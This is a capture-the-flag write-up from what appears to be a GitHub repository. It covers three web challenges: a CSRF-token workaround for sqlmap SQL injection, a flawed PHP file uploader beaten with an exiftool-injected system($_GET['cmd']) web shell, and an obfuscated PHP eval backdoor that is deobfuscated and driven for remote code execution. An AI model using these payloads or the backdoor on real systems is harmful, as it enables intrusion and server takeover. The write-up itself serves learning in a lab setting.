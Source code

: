 # IEEE Olympics CTF Competition Writeups

## Description
IEEE Olympics CTF Competition organized and managed by IEEE Mansoura Student Branch & EG CERT

CTF Competition Style: jeopardy

Time: 6 hours

## Challenges
### [1- Web : Inj3ct th!s - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)

in this challenges we have login form and as challenge name its should be sql injection

so i tested it but its well protected against sql injection
so back to hints:
```You don't need to bruteforce directories or credentials at all. Do you know how search engines work?```

yes its ``robots.txt`` file

when i opened it its contain ``User-agent: * Disallow: /user_info.php``

when i opened it its only contain ``Invalid input!`` in response so i bruteforced the parameters and found ``uid`` working so i gave it value 1 
so response was 
```html
<script>document.cookie="token=1250816630"</script><meta http-equiv="refresh" content="time; URL=user_info.php?uid=1"/>
```
then redirect me and response was
```html
id: 1<br>Name: Forrest Hamilton<br>Email: accumsan.convallis.ante@convallis.net<br><script>document.cookie="token=320196787"</script>
```
when i try ``user_info.php?uid=1 AND 1=1`` & ``user_info.php?uid=1 AND 1=2`` its working perfrect but wait i can't automate the injection using sqlmap cuz csrf token :"(

token is changing and can't send more than 1 request with same token so its csrf token but every time i send request to ``user_info.php?uid=1`` response back with javascript code to set new csrf token in cookie then refresh the page to get result.

i tried a lot but no way .. i tried Roles & Macros in burp and its working in parameters only so can't get token from response body and set it to cookie in next request i can set it only to any parameters

so i can't automate the process and i must do it manually and its boolean based xD

so i tried a lot untill i did it, so i wrote a php script and run it on localhost server

the script send request without token to get new token then set it as cookie with ``setcookie`` function

and back to sqlmap and add these parameters `` --csrf-url="http://localhost/ctf/Inj3ct this.php" --csrf-token="token" `` and its asked me to merge the cookies so i said yes and holaaaa i automated sql injection with sqlmap with ``Generic UNION query (NULL) - 5 columns`` payload xD
and got DB name and table name but can't get columns because ``schema`` is blocked as hints said :(
so i brueforced it and table columns name is: `id, name, user_name, user_password`

dumped the database and got username of admin: ``admin`` and his password as plaintext: ``Sup3rS3cretP@ssw0rd``
back to login form and loggin in and holaaa here is the flag :  ````IEEE{Sch3ma0xa46480_is_Aw3some}````



### [2- Web : S3cure uploader - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)
here we have simple file uploader and we got source code
```php
<?php
if(isset($_GET["upload"])) {
$target_dir = "uploads/";
$vars = explode(".", $_FILES["FileToUpload"]["name"]);
$filename=$vars[0];
$ext = $vars[1];
//randomizing file name
$time = date('Y-m-d H:i:s');
$new_name = md5(rand(1,1000).$time.$filename."0x4148fo").".".strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION));
$filename=explode(".", $_FILES["FileToUpload"]["name"])[0];
$ext = $filename=explode(".", $_FILES["FileToUpload"]["name"])[1];
$target_file = $target_dir . "$new_name";
// Check if file already exists
if (file_exists($target_file)) {
  echo "File already exists.";
  $uploadOk = 0;
  die();
}
// Check file size
if ($_FILES["FileToUpload"]["size"] > 500000) {
  echo "File is too large.";
  $uploadOk = 0;
  die();
}
$uploadOk = 1;
$check = getimagesize($_FILES["FileToUpload"]["tmp_name"]);
if($check !== false) {
    $uploadOk = 1;
} else {
    echo "File is not an image.";
    $uploadOk = 0;
    die();
  }
}
move_uploaded_file($_FILES["FileToUpload"]["tmp_name"], $target_file);
if(strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION))=="jpg"){
echo "File uploaded successfully to $target_file";
}
else{
	die("Invalid file type");
}
?>
```
so after reading and analyse it i found big serious problem, the script check file extension after moving uploaded file to uploading folder LOL xD
but server reset every 10 mins so we have only 10 mins xD

also if i uploaded anything except jpg it won't give me the file name so i must get file name manually

but SAD the file name is md5 hash of random number + date + filename without ext + custom string WTF !!

but wait random number from 1 to 1000 only so its easy to brueforce it

and we can get date from response headers xD

and we got file name of course and custom string

but wait it check image uploaded with `getimagesize` function but its easy to bypass by injecting php payload into image exif data by ``exiftool -Comment='<?php  system($_GET['cmd']); ?>' test.jpg``

also script check file size so we should inject php payload into small image, my image size after injecting php code inside it was 677 bytes :D

then change image name to `anything.php` then upload it and get date from response and edit my php script (was have no time to write it with python or any lanuage else xD) with it then run my script
so now we have 1000 filenames as md5 hash
so back to burp intruder and paste my list on payload list and start attack and wait 200 response code and holaaaa we got web shell uploaded :D
and now we can get flag inside flag.php file :D


### [3- Web : Tiny backd00r - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)
here we have simple website with index.php that contains `Can you hackme!` nothing else
i tried to brutforce another scripts name with dirsearch tools but no result
back to hints we have 2 hints
1- `You should never trust the files left behind editors!`
2- `Vim backup files are always dangrous.`

so we should find vim backup file that should be index.php~ but 404 notfound :"(
so i guessed the file name `backdoor.php` and hola 200ok but empty response so i tried to get vim backup of it `backdoor.php~` and holaaa we got source code
but WTF is that xD
```php
<?php
$F=',$i++){gMgM$ogM.=$t{$i}^$k{$jgM};}}returngMgM $o;}if(gM@preg_gMmatch("/$gMkgMh(.+)$gMkf/gM",@file_get_congMtents(gM"gMphp';
$Y=str_replace('p','','crpepatppe_fupnctpion');
$a='$k=gM"094db03gMgM6";$kh="7gMefgM9bf383gMded";$kf="gMb241egM2ed9d4a";gM$p="wa1YvgMgM8JoMtD0QJO9gMgM";functiongM x($';
$V='tgM_contents(gM);@ob_gMend_gMclean();$r=gM@gMbasgMe64_encode(gM@x(@gzcomgMgMpress($o)gM,$k));prigMntgM("$gMp$kh$r$kf");}';
$Q='t,$gMk)gM{gM$c=gMstrlen($k);$l=sgMtrlegMgMn($t);$o="";for($igM=0;$i<$gMl;){fogMrgM($j=0gM;($j<$c&&gM$gMi<$l);$j++gM';
$M=':gM//input")gMgM,$m)==1){@ogMb_start();@gMevagMl(@gzugMncompresgMs(@x(@bgMase64_dgMecogMde($m[1])gM,$kgM))gM);$o=@obgM_ge';
$h=str_replace('gM','',$a.$Q.$F.$M.$V);
$l=$Y('',$h);$l();
?>
```
its easy to make it easy to read by print `$h`
and after some modifications we have this source code
```php
<?php
$k="094db036";
$kh="7ef9bf383ded";
$kf="b241e2ed9d4a";
$p="wa1Yv8JoMtD0QJO9";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);$
    o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
```
after some analysis i found that script check for php input with regex exp.

so if input have and text between `$kh` and `$kf` ("7ef9bf383ded" and "b241e2ed9d4a") then script will extract this string then decode it as base64 then pass it to `x function` to decrypt it then gzuncompress it then pass the result to `eval` function :D

then get the result then gzcompress it then encrypt it with `x function` then encode the result as base64 then print it in response between `$p` & `$kh` and `$kf`
so i wrote simple php script to do all this sh!t xD

my script encrypt the payload using
```php
$cmd_encoded = base64_encode(x(gzcompress($_GET['payload']),$k));
```
then put it between `$kh` and `$kf` values then send this request to challenge server

and get the response and decrypt it using
```php
$result_decoded = gzuncompress(x(base64_decode($result),$k));
```

then print the result after filtering it from `$kf` & `$kh` and `$p` values

now let's try this payload : `system("ls");`
and holaaaa we have RCE now and u can read the flag in `s3cret_flag.php` file :D

Update: i added terminal style to the script, so now u can run it on ur localhost server and happy terminal :D ♥
